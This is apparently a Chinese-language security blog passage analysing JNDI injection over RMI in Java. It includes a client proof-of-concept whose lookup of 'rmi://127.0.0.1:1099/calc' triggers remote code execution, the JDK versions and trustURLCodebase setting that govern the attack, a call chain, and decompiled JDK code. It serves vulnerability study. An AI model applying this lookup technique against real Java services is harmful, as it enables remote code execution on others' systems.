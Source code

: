 Client端，lookup触发RCE

```java
import javax.naming.InitialContext;

public class JNDI_Test {
    public static void main(String[] args) throws Exception{
        new InitialContext().lookup("rmi://127.0.0.1:1099/calc");
    }
}
```

![image-20220508014732306](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220508014732306.png)

#### 限制

JDK 6u132, JDK 7u122, JDK 8u113 中Java提升了JNDI 限制了Naming/Directory服务中JNDI Reference远程加载Object Factory类的特性。系统属性 `com.sun.jndi.rmi.object.trustURLCodebase`、`com.sun.jndi.cosnaming.object.trustURLCodebase` 的默认值变为false

- 客户端`com.sun.jndi.rmi.object.trustURLCodebase`设置为true

#### 调用链

```
getObjectFactoryFromReference:163, NamingManager (javax.naming.spi)
getObjectInstance:319, NamingManager (javax.naming.spi)
decodeObject:456, RegistryContext (com.sun.jndi.rmi.registry)
lookup:120, RegistryContext (com.sun.jndi.rmi.registry)
lookup:203, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:411, InitialContext (javax.naming)
main:7, JNDI_Test (JNDI)
```

简单看一下关键部分，跟进`com.sun.jndi.rmi.registry.RegistryContext#decodeObject`，这里是将从服务端返回的`ReferenceWrapper_Stub`获取`Reference`对象。

```java
 private Object decodeObject(Remote var1, Name var2) throws NamingException {
        try {
            Object var3 = var1 instanceof RemoteReference ? ((RemoteReference)var1).getReference() : var1;
            return NamingManager.getObjectInstance(var3, var2, this, this.environment);
        } catch (NamingException var5) {
            throw var5;
        } catch (RemoteException var6) {
            throw (NamingException)wrapRemoteException(var6).fillInStackTrace();
        } catch (Exception var7) {
            NamingException var4 = new NamingException();
            var4.setRootCause(var7);
            throw var4;
        }
    }
}
```
